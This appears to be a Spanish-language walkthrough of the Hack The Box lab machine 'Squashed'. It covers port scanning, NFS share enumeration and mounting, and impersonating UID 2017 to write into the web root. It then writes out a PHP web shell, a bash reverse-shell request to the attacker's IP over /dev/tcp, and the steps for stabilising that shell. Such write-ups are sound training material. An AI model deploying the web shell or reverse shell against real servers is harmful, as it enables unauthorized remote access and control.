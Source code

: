 # Maquina Squashed

Se ejecuto mapeo con rustscan de la mano con nmap para servicios y deteccion de vulnerabilidades con el script de "vulners":

```
Open 10.10.11.191:22
Open 10.10.11.191:80
Open 10.10.11.191:111
Open 10.10.11.191:2049
Open 10.10.11.191:8000
Open 10.10.11.191:43215
Open 10.10.11.191:48357
Open 10.10.11.191:49029
Open 10.10.11.191:53201
```

# Servicios por puerto:

```

PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.2p1: 
|     	CVE-2020-15778	6.8	https://vulners.com/cve/CVE-2020-15778
|     	C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3	6.8	https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3	*EXPLOIT*
|     	10213DBE-F683-58BB-B6D3-353173626207	6.8	https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207	*EXPLOIT*
|     	CVE-2020-12062	5.0	https://vulners.com/cve/CVE-2020-12062
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	CVE-2021-41617	4.4	https://vulners.com/cve/CVE-2021-41617
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2016-20012	4.3	https://vulners.com/cve/CVE-2016-20012
|_    	CVE-2021-36368	2.6	https://vulners.com/cve/CVE-2021-36368
80/tcp    open  http     syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| vulners: 
|   cpe:/a:apache:http_server:2.4.41: 
|     	CVE-2022-31813	7.5	https://vulners.com/cve/CVE-2022-31813
|     	CVE-2022-23943	7.5	https://vulners.com/cve/CVE-2022-23943
|     	CVE-2022-22720	7.5	https://vulners.com/cve/CVE-2022-22720
|     	CVE-2021-44790	7.5	https://vulners.com/cve/CVE-2021-44790
|     	CVE-2021-39275	7.5	https://vulners.com/cve/CVE-2021-39275
|     	CVE-2021-26691	7.5	https://vulners.com/cve/CVE-2021-26691
|     	CVE-2020-11984	7.5	https://vulners.com/cve/CVE-2020-11984
|     	CNVD-2022-73123	7.5	https://vulners.com/cnvd/CNVD-2022-73123
|     	CNVD-2022-03225	7.5	https://vulners.com/cnvd/CNVD-2022-03225
|     	CNVD-2021-102386	7.5	https://vulners.com/cnvd/CNVD-2021-102386
|     	1337DAY-ID-34882	7.5	https://vulners.com/zdt/1337DAY-ID-34882	*EXPLOIT*
|     	FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8	6.8	https://vulners.com/githubexploit/FDF3DFA1-ED74-5EE2-BF5C-BA752CA34AE8	*EXPLOIT*
|     	CVE-2021-40438	6.8	https://vulners.com/cve/CVE-2021-40438
|     	CVE-2020-35452	6.8	https://vulners.com/cve/CVE-2020-35452
|     	CNVD-2022-03224	6.8	https://vulners.com/cnvd/CNVD-2022-03224
|     	8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2	6.8	https://vulners.com/githubexploit/8AFB43C5-ABD4-52AD-BB19-24D7884FF2A2	*EXPLOIT*
|     	4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332	6.8	https://vulners.com/githubexploit/4810E2D9-AC5F-5B08-BFB3-DDAFA2F63332	*EXPLOIT*
|     	4373C92A-2755-5538-9C91-0469C995AA9B	6.8	https://vulners.com/githubexploit/4373C92A-2755-5538-9C91-0469C995AA9B	*EXPLOIT*
|     	0095E929-7573-5E4A-A7FA-F6598A35E8DE	6.8	https://vulners.com/githubexploit/0095E929-7573-5E4A-A7FA-F6598A35E8DE	*EXPLOIT*
|     	CVE-2022-28615	6.4	https://vulners.com/cve/CVE-2022-28615
|     	CVE-2021-44224	6.4	https://vulners.com/cve/CVE-2021-44224
|     	CVE-2022-22721	5.8	https://vulners.com/cve/CVE-2022-22721
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2022-30556	5.0	https://vulners.com/cve/CVE-2022-30556
|     	CVE-2022-29404	5.0	https://vulners.com/cve/CVE-2022-29404
|     	CVE-2022-28614	5.0	https://vulners.com/cve/CVE-2022-28614
|     	CVE-2022-26377	5.0	https://vulners.com/cve/CVE-2022-26377
|     	CVE-2022-22719	5.0	https://vulners.com/cve/CVE-2022-22719
|     	CVE-2021-36160	5.0	https://vulners.com/cve/CVE-2021-36160
|     	CVE-2021-34798	5.0	https://vulners.com/cve/CVE-2021-34798
|     	CVE-2021-33193	5.0	https://vulners.com/cve/CVE-2021-33193
|     	CVE-2021-30641	5.0	https://vulners.com/cve/CVE-2021-30641
|     	CVE-2021-26690	5.0	https://vulners.com/cve/CVE-2021-26690
|     	CVE-2020-9490	5.0	https://vulners.com/cve/CVE-2020-9490
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2020-13950	5.0	https://vulners.com/cve/CVE-2020-13950
|     	CVE-2019-17567	5.0	https://vulners.com/cve/CVE-2019-17567
|     	CNVD-2022-73122	5.0	https://vulners.com/cnvd/CNVD-2022-73122
|     	CNVD-2022-53584	5.0	https://vulners.com/cnvd/CNVD-2022-53584
|     	CNVD-2022-53582	5.0	https://vulners.com/cnvd/CNVD-2022-53582
|     	CNVD-2022-03223	5.0	https://vulners.com/cnvd/CNVD-2022-03223
|     	CVE-2020-11993	4.3	https://vulners.com/cve/CVE-2020-11993
|     	1337DAY-ID-35422	4.3	https://vulners.com/zdt/1337DAY-ID-35422	*EXPLOIT*
|     	CVE-2023-27522	0.0	https://vulners.com/cve/CVE-2023-27522
|     	CVE-2023-25690	0.0	https://vulners.com/cve/CVE-2023-25690
|     	CVE-2022-37436	0.0	https://vulners.com/cve/CVE-2022-37436
|     	CVE-2022-36760	0.0	https://vulners.com/cve/CVE-2022-36760
|_    	CVE-2006-20001	0.0	https://vulners.com/cve/CVE-2006-20001
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      43331/udp6  mountd
|   100005  1,2,3      45537/udp   mountd
|   100005  1,2,3      48357/tcp   mountd
|   100005  1,2,3      54725/tcp6  mountd
|   100021  1,3,4      39705/tcp6  nlockmgr
|   100021  1,3,4      43215/tcp   nlockmgr
|   100021  1,3,4      44185/udp   nlockmgr
|   100021  1,3,4      57177/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  syn-ack ttl 63 3 (RPC #100227)
8000/tcp  open  http     syn-ack ttl 63 SimpleHTTPServer 0.6 (Python 3.8.10)
|_http-server-header: SimpleHTTP/0.6 Python/3.8.10
| vulners: 
|   cpe:/a:python:simplehttpserver:0.6: 
|     	NODEJS:744	5.0	https://vulners.com/nodejs/NODEJS:744
|_    	NODEJS:585	3.5	https://vulners.com/nodejs/NODEJS:585
43215/tcp open  nlockmgr syn-ack ttl 63 1-4 (RPC #100021)
48357/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
49029/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
53201/tcp open  mountd   syn-ack ttl 63 1-3 (RPC #100005)
```
# Puerto 2049

En este puerto indica que hay un `nfs` (network file shareing), primera vez ante este servicio para enumerarlo o listarlo se hace con el comando `showmount -e 10.10.11.191`, :

```

Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

## Esto nos da mas visibilidad en lo que claramente es un sitio con puerto 80 abierto y ya indica esos dos paths para seguir enumerando.

# Montando el nfs

Podemos montar el `nfs` localmente en nuestra maquina asi no metemos mano directamente del navegador, generamos los directorios correspondientes y montamos con el comando `mount -t`:

```

mkdir -p /mnt/ross/
mkdir -p /mnt/web_server/

sudo mount -t nfs 10.10.11.191:/home/ross /mnt/ross/
sudo mount -t nfs 10.10.11.191:/var/www/html /mnt/web_server/
```

## Podemos accesar al share `/mnt/ross` pero al `web_server` no teenos permiso, solo el usuario `2017` tiene permiso, como no tenemos o somos ese usuario solo hay que crearlo localmente, asignarle unicamnete el grupo de `www-data` y podria funcionar.

```

sudo useradd testeo
sudo usermod -u 2017 testeo
sudo groupmod -g 2017 testeo
su testeo
```

## Ya com el neuvo usuario podemos enumerar y listar.

# contenidos:

```
drwxr-xr-- 5 testeo http 4.0K Apr  2 04:35 .
drwxr-xr-x 1 root   root   28 Apr  2 04:25 ..
drwxr-xr-x 2 testeo http 4.0K Apr  2 04:35 css
-rw-r--r-- 1 testeo http   44 Oct 21 05:30 .htaccess
drwxr-xr-x 2 testeo http 4.0K Apr  2 04:35 images
-rw-r----- 1 testeo http  32K Apr  2 04:35 index.html
drwxr-xr-x 2 testeo http 4.0K Apr  2 04:35 js
bash: /home/testeo/.bashrc: No such file or directory
```

## Probando la posibilidad de leer y escribir todo sale con exito, creare un archivo `php` que funja como un comando intermediario para todo lo que queira correr en el servidor:

```
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
## guardamos y desde el navegador vamos a copiar este comando para iniciar un reverseshell mediante `sudo nc -nlvp 443` desde nuestra maquina y despues damos enter al navegador con el comando:

```
10.10.11.191/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.51/443 0>%261"
```
## ya teneidno reverseshell vamos a purifciar la bash shell 

1) script /dev/null -c bash
2) presionar CTRL + z
3) stty raw -echo; fg
4) reset xterm
5) export TERM=xterm

## Ya todo deberia de funcionar bien y la shell no se caera aun que hiciera CTRL+C . 
